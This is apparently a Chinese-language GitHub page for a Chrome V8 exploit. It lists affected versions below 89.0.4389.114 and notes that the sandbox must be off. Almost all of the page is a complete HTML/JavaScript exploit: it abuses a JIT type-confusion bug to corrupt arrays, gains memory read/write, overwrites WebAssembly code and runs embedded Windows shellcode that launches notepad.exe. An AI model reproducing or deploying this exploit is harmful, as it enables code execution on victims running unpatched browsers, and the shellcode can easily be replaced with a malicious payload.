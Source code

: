 影響版本
--------

小於89.0.4389.114

注意：需要關閉沙箱。

EXP
---

    <script>
        function gc() {
            for (var i = 0; i < 0x80000; ++i) {
                var a = new ArrayBuffer();
            }
        }
        let shellcode = [0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51,
            0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52, 0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52,
            0x20, 0x48, 0x8B, 0x72, 0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
            0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0xE2, 0xED,
            0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B, 0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88,
            0x00, 0x00, 0x00, 0x48, 0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
            0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41, 0x8B, 0x34, 0x88, 0x48,
            0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0, 0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1,
            0x38, 0xE0, 0x75, 0xF1, 0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
            0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44, 0x8B, 0x40, 0x1C, 0x49,
            0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01, 0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A,
            0x41, 0x58, 0x41, 0x59, 0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
            0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48, 0xBA, 0x01, 0x00, 0x00,
            0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D, 0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B,
            0x6F, 0x87, 0xFF, 0xD5, 0xBB, 0xF0, 0xB5, 0xA2, 0x56, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
            0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0, 0x75, 0x05, 0xBB, 0x47,
            0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89, 0xDA, 0xFF, 0xD5, 0x6E, 0x6F, 0x74, 0x65, 0x70,
            0x61, 0x64, 0x2E, 0x65, 0x78, 0x65, 0x00];
        var wasmCode = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 133, 128, 128, 128, 0, 1, 96, 0, 1, 127, 3, 130, 128, 128, 128, 0, 1, 0, 4, 132, 128, 128, 128, 0, 1, 112, 0, 0, 5, 131, 128, 128, 128, 0, 1, 0, 1, 6, 129, 128, 128, 128, 0, 0, 7, 145, 128, 128, 128, 0, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 97, 105, 110, 0, 0, 10, 138, 128, 128, 128, 0, 1, 132, 128, 128, 128, 0, 0, 65, 42, 11]);
        var wasmModule = new WebAssembly.Module(wasmCode);
        var wasmInstance = new WebAssembly.Instance(wasmModule);
        var main = wasmInstance.exports.main;
        var bf = new ArrayBuffer(8);
        var bfView = new DataView(bf);
        function fLow(f) {
            bfView.setFloat64(0, f, true);
            return (bfView.getUint32(0, true));
        }
        function fHi(f) {
            bfView.setFloat64(0, f, true);
            return (bfView.getUint32(4, true))
        }
        function i2f(low, hi) {
            bfView.setUint32(0, low, true);
            bfView.setUint32(4, hi, true);
            return bfView.getFloat64(0, true);
        }
        function f2big(f) {
            bfView.setFloat64(0, f, true);
            return bfView.getBigUint64(0, true);
        }
        function big2f(b) {
            bfView.setBigUint64(0, b, true);
            return bfView.getFloat64(0, true);
        }
        class LeakArrayBuffer extends ArrayBuffer {
            constructor(size) {
                super(size);
                this.slot = 0xb33f;
            }
        }
        function foo(a) {
            let x = -1;
            if (a) x = 0xFFFFFFFF;
            var arr = new Array(Math.sign(0 - Math.max(0, x, -1)));
            arr.shift();
            let local_arr = Array(2);
            local_arr[0] = 5.1;//4014666666666666
            let buff = new LeakArrayBuffer(0x1000);//byteLength idx=8
            arr[0] = 0x1122;
            return [arr, local_arr, buff];
        }
        for (var i = 0; i < 0x10000; ++i)
            foo(false);
        gc(); gc();
        [corrput_arr, rwarr, corrupt_buff] = foo(true);
        corrput_arr[12] = 0x22444;
        delete corrput_arr;
        function setbackingStore(hi, low) {
            rwarr[4] = i2f(fLow(rwarr[4]), hi);
            rwarr[5] = i2f(low, fHi(rwarr[5]));
        }
        function leakObjLow(o) {
            corrupt_buff.slot = o;
            return (fLow(rwarr[9]) - 1);
        }
        let corrupt_view = new DataView(corrupt_buff);
        let corrupt_buffer_ptr_low = leakObjLow(corrupt_buff);
        let idx0Addr = corrupt_buffer_ptr_low - 0x10;
        let baseAddr = (corrupt_buffer_ptr_low & 0xffff0000) - ((corrupt_buffer_ptr_low & 0xffff0000) % 0x40000) + 0x40000;
        let delta = baseAddr + 0x1c - idx0Addr;
        if ((delta % 8) == 0) {
            let baseIdx = delta / 8;
            this.base = fLow(rwarr[baseIdx]);
        } else {
            let baseIdx = ((delta - (delta % 8)) / 8);
            this.base = fHi(rwarr[baseIdx]);
        }
        let wasmInsAddr = leakObjLow(wasmInstance);
        setbackingStore(wasmInsAddr, this.base);
        let code_entry = corrupt_view.getFloat64(13 * 8, true);
        setbackingStore(fLow(code_entry), fHi(code_entry));
        for (let i = 0; i < shellcode.length; i++) {
            corrupt_view.setUint8(i, shellcode[i]);
        }
        main();
    </script>